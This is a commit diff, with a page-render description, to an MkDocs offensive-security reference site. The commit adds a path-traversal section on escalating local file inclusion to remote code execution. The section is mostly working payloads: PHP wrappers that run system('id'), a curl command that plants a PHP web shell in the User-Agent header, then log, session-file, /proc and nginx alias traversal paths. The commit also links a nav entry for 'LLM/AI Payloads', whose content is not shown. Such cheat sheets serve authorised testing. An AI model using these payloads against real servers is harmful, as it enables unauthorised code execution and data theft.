

Before and after one commit to Nooboclawdus/hackus-codex, an MkDocs documentation site: the page built from docs/vulns/injection/path-traversal.md, in a window 1280 px wide and 1400 px high, scrolled down 3476 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 4744 px from its top, so only the background shows below that.

Commit message:
feat: add LLM quick ref + LFI→RCE techniques
- Add LLM/AI payloads to Quick Ref nav
- Path Traversal: PHP wrappers, log/session poisoning
- Path Traversal: /proc harvesting, Nginx alias mismatch

````diff
--- a/docs/vulns/injection/path-traversal.md
+++ b/docs/vulns/injection/path-traversal.md
@@ -170,6 +170,52 @@ C:\boot.ini
 /proc/self/environ
 ```
 
+## LFI → RCE
+
+### PHP Wrappers
+
+```
+php://filter/convert.base64-encode/resource=config.php
+php://input (POST: <?php system('id'); ?>)
+data://text/plain;base64,PD9waHAgc3lzdGVtKCdpZCcpOyA/Pg==
+expect://id
+zip://uploads/evil.zip#shell.php
+phar://uploads/avatar.jpg/stub
+```
+
+### Log Poisoning
+
+```bash
+# Inject in User-Agent, then include log
+curl -A "<?php system(\$_GET['c']); ?>" http://target/
+?page=../../../var/log/apache2/access.log&c=id
+?page=../../../var/log/nginx/access.log&c=id
+?page=../../../var/log/mail.log&c=id
+```
+
+### Session Poisoning
+
+```
+?page=../../../tmp/sess_<SESSIONID>
+?page=../../../var/lib/php/sessions/sess_<SESSIONID>
+```
+
+### /proc Harvesting
+
+```
+/proc/self/environ
+/proc/self/cmdline
+/proc/self/fd/X
+/proc/self/maps
+```
+
+### Nginx Alias Mismatch
+
+```
+/static../etc/passwd
+/static..;/etc/passwd
+```
+
 ## Tools
 
 ```bash
--- a/mkdocs.yml
+++ b/mkdocs.yml
@@ -119,6 +119,7 @@ nav:
     - SQLi Payloads: quick/sqli.md
     - SSRF Payloads: quick/ssrf.md
     - Auth Payloads: quick/auth.md
+    - LLM/AI Payloads: quick/llm.md
     - Bypasses: quick/bypasses.md
   - 🔥 Vulnerabilities:
     - vulns/index.md
````
